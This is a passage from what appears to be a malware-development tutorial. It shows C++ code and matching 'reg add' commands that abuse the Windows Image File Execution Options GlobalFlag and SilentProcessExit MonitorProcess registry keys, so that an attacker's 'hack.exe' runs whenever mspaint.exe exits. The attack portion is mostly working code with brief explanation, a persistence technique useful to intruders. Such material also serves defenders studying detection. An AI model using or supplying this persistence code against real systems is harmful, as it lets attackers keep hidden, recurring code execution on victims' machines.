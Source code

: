 ```cpp

  // res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)
  //"SOFTWARE\\Microsoft\\Windows 
  //NT\\CurrentVersion\\SilentProcessExit\\mspaint.exe", 0 , KEY_WRITE, &hkey);
  res = RegCreateKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)silent, 0, NULL, 
  REG_OPTION_NON_VOLATILE, KEY_WRITE | KEY_QUERY_VALUE, NULL, &hkey, NULL);
  if (res == ERROR_SUCCESS) {
    // create new registry key
    // reg add "HKLM\SOFTWARE\Microsoft\Windows 
    // NT\CurrentVersion\SilentProcessExit\notepad.exe" /v ReportingMode /t 
    // REG_DWORD /d 1
    // reg add "HKLM\SOFTWARE\Microsoft\Windows 
    // NT\CurrentVersion\SilentProcessExit\notepad.exe" /v MonitorProcess /d 
    // "Z:\..\hack.exe"
    RegSetValueEx(hkey, (LPCSTR)"ReportingMode", 0, REG_DWORD, 
    (const BYTE*)&rM, sizeof(rM));
    RegSetValueEx(hkey, (LPCSTR)"MonitorProcess", 0, REG_SZ, 
    (unsigned char*)exe, strlen(exe));
    RegCloseKey(hkey);
  }

  return 0;
}
```

So what have we done here? Firstly, we created `SilentProcessExit` key under `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion`, then  enabled silent process exit monitoring feature by adding `GlobalFlag`:    

```cpp
//...

LONG res = RegCreateKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)img, 0, NULL, 
REG_OPTION_NON_VOLATILE, KEY_WRITE | KEY_QUERY_VALUE, NULL, &hkey, NULL);

//...
//...

// reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File 
// Execution Options\mspaint.exe" /v GlobalFlag /t REG_DWORD /d 512
RegSetValueEx(hkey, (LPCSTR)"GlobalFlag", 0, REG_DWORD, 
(const BYTE*)&gF, sizeof(gF));
//...
```

By setting `MonitorProcess` to `...\hack.exe` and `ReportingMode` to `1`, every silent exit of `mspaint.exe` will now trigger the execution of our "malware" `hack.exe`:     

```cpp
//...

RegSetValueEx(hkey, (LPCSTR)"ReportingMode", 0, REG_DWORD, 
(const BYTE*)&rM, sizeof(rM));
RegSetValueEx(hkey, (LPCSTR)"MonitorProcess", 0, REG_SZ, (unsigned char*)exe, 
strlen(exe));
```
